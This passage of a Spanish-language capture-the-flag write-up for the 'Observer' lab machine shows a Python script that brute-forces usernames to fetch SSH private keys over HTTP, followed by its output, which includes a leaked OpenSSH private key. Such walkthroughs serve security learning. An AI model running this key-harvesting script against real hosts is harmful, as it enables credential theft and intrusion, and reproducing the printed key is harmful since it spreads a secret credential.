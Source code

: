 ```python
import requests

spaces = " " * 60

with open("/usr/share/wordlists/external/SecLists/Usernames/xato-net-10-million-usernames.txt", "r") as f:
        lines = f.readlines()
        for username in lines:
                username = username.replace("\n", "")
                r = requests.get(f"http://192.168.1.113:3333/{username}/.ssh/id_rsa")
                if "NOT EXIST" in r.text:
                        print(f"[-] {username}{spaces}", end="\r")
                else:
                        print(f"[+] Username Found: {username}\nResponse:\n{r.text}")
                        break
```

Como vemos este **`script`** está abriendo el diccionario **`xato-net-10-million-usernames.txt`** de [**`SecLists`**](https://github.com/danielmiessler/SecLists) y está iterando por todas y cada una de las líneas, haciendo una petición a **`http://192.168.1.113:3333/`**, junto al nombre de usuario y el fichero antes mencionado.

Vamos a probarlo:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Observer/exploits]
└─# python3 brute_force.py
[+] Username Found: jan                                                      
Response:
-----BEGIN OPENSSH PRIVATE KEY-----
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
```